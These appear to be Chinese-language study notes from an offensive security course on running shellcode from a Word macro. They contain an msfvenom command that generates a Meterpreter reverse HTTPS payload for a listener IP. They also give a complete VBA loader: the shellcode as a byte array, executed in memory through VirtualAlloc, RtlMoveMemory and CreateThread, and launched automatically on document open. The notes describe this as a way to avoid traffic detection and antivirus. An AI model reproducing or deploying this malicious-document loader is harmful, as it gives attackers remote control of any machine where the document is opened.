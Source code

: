 # 3.4 Executing Shellcode in Word Memory

下载脚本 再执行容易被流量检测工具发现，另方面下载文件会被杀毒软件查杀

### 3.4.1 Calling Win32 APIs from VBA

介绍一下如何vba如何调用win32 api，64位系统需要加上PtrSafe

```visual basic
Private Declare PtrSafe Function GetUsername Lib "Advapi32.dll" Alias "GetUserNameA" (ByVal IpBuffer As String, ByRef nSize As Long) As Long
Sub test()
Dim res As Long
Dim mybuff As String * 256
Dim mysize As Long
mysize = 256
res = GetUsername(mybuff, mysize)
strlen = InStr(1, mybuff, vbNullChar) - 1
MsgBox Left(mybuff, strlen)
End Sub
```

### 3.4.2 VBA Shellcode Runner

**Shellcode**
```linux
msfvenom -p windows/meterpreter/reverse_https lhost=192.168.49.96 lport=443 exitfunc=thread -f vbaapplication
```

这里EXITFUNC=thread 表示文档关闭后 这个shell仍在执行

**Shellcode Runner**

1. VirtualAlloc (创建可读写执行到memory地址并返回地址)
   - 参数设置：
      - LPVOID lpAddress (内存分配地址，设为0 api会自动选择内存地址)
      - SIZE_T dwsize（申请内存分配的大小）
      - DWORD flAllocationType 
      - DWORD flProtect
   - 申明方式：
      ```vb
	  Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal IpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) as LongPtr
	  ```
   - 使用方式：
      ```vb
	  addr = VirtualAlloc(0,UBound(buf),&H3000,&H40)
	  ```
      - UBound(buf)：可以硬编码，也可以使用这个函数
      - &H3000：让操作系统为我们保留这段内存空间
      - &H40： 设定这段内存地址是可读写执行的
2. RtlMoveMemory（将shellcode复制到对应地址）
   - 参数设置：
      - VOID UNALIGNED	*Destination
      - VOID UNALIGNED	*Source				
      - SIZE_T					Length
    - 申明方式：
       ```vb
	    Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Long, ByVal lLength As Long) as LongPtr
	   ```
    - 使用方式：
       将shellcode一个字节一个字节导入
       
	   ```vb
	   For counter = LBound(buf) to Ubound(buf)
		  data = buf(counter)
	    res=RtlmoveMemory(addr+counter,data,1)
	   Next counter
      ```
       - 这边addr是 VirtualAlloc函数调用申领的地址
3. CreateThread 在进程process中
   - 参数设置：
      -  LPSECURITY_ATTRIBUTES：lpThreadAttributes,
      -  SIZE_T. :  dwStackSize,
      -  LPTHREAD_START_ROUTINE. : lpStartAddress,
      -  LPVOID : lpParameter,
      -  DWORD : dwCreationFlags,
      -  LPDWORD : lpThreadId
   - 申明方式：
      ```vb
	  Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartAddress As LongPtr, ThreadParameter as LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) as LongPtr
	  ```
   - 使用方式：
     ```
	 res = CreateThread(0,0,addr,0,0)
	  ```
	
	

使用vba的劣势在于，关闭了word文档，shell就断了。

```vb
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal IpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Long, ByVal lLength As Long) As LongPtr
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartAddress As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Function Mymarco()

Dim buf As Variant
Dim addr As LongPtr
Dim counter As Long
Dim data As Long
Dim res As Long

buf = Array(252, 232, 143, 0, 0, 0, 96, 137, 229, 49, 210, 100, 139, 82, 48, 139, 82, 12, 139, 82, 20, 139, 114, 40, 15, 183, 74, 38, 49, 255, 49, 192, 172, 60, 97, 124, 2, 44, 32, 193, 207, 13, 1, 199, 73, 117, 239, 82, 87, 139, 82, 16, 139, 66, 60, 1, 208, 139, 64, 120, 133, 192, 116, 76, 1, 208, 80, 139, 72, 24, 139, 88, 32, 1, 211, 133, 201, 116, 60, 73, 139, _
52, 139, 49, 255, 1, 214, 49, 192, 172, 193, 207, 13, 1, 199, 56, 224, 117, 244, 3, 125, 248, 59, 125, 36, 117, 224, 88, 139, 88, 36, 1, 211, 102, 139, 12, 75, 139, 88, 28, 1, 211, 139, 4, 139, 1, 208, 137, 68, 36, 36, 91, 91, 97, 89, 90, 81, 255, 224, 88, 95, 90, 139, 18, 233, 128, 255, 255, 255, 93, 104, 110, 101, 116, 0, 104, 119, 105, 110, 105, 84, _
104, 76, 119, 38, 7, 255, 213, 49, 219, 83, 83, 83, 83, 83, 232, 62, 0, 0, 0, 77, 111, 122, 105, 108, 108, 97, 47, 53, 46, 48, 32, 40, 87, 105, 110, 100, 111, 119, 115, 32, 78, 84, 32, 54, 46, 49, 59, 32, 84, 114, 105, 100, 101, 110, 116, 47, 55, 46, 48, 59, 32, 114, 118, 58, 49, 49, 46, 48, 41, 32, 108, 105, 107, 101, 32, 71, 101, 99, 107, 111, _
0, 104, 58, 86, 121, 167, 255, 213, 83, 83, 106, 3, 83, 83, 104, 187, 1, 0, 0, 232, 193, 0, 0, 0, 47, 99, 98, 118, 70, 81, 82, 101, 73, 105, 119, 66, 113, 56, 50, 118, 121, 67, 104, 48, 81, 65, 81, 104, 117, 105, 120, 120, 83, 70, 74, 83, 79, 81, 120, 67, 119, 108, 113, 45, 69, 106, 81, 54, 103, 52, 67, 81, 51, 0, 80, 104, 87, 137, 159, 198, _
255, 213, 137, 198, 83, 104, 0, 50, 232, 132, 83, 83, 83, 87, 83, 86, 104, 235, 85, 46, 59, 255, 213, 150, 106, 10, 95, 104, 128, 51, 0, 0, 137, 224, 106, 4, 80, 106, 31, 86, 104, 117, 70, 158, 134, 255, 213, 83, 83, 83, 83, 86, 104, 45, 6, 24, 123, 255, 213, 133, 192, 117, 20, 104, 136, 19, 0, 0, 104, 68, 240, 53, 224, 255, 213, 79, 117, 205, 232, 74, _
0, 0, 0, 106, 64, 104, 0, 16, 0, 0, 104, 0, 0, 64, 0, 83, 104, 88, 164, 83, 229, 255, 213, 147, 83, 83, 137, 231, 87, 104, 0, 32, 0, 0, 83, 86, 104, 18, 150, 137, 226, 255, 213, 133, 192, 116, 207, 139, 7, 1, 195, 133, 192, 117, 229, 88, 195, 95, 232, 107, 255, 255, 255, 49, 57, 50, 46, 49, 54, 56, 46, 52, 57, 46, 57, 54, 0, 187, 224, 29, _
42, 10, 104, 166, 149, 189, 157, 255, 213, 60, 6, 124, 10, 128, 251, 224, 117, 5, 187, 71, 19, 114, 111, 106, 0, 83, 255, 213)

addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

For counter = LBound(buf) To UBound(buf)
  data = buf(counter)
  res = RtlMoveMemory(addr + counter, data, 1)
Next counter

res = CreateThread(0, 0, addr, 0, 0, 0)

End Function

Sub Document_Open()
    Mymarco
End Sub

Sub autoopen()
    Mymarco
End Sub

```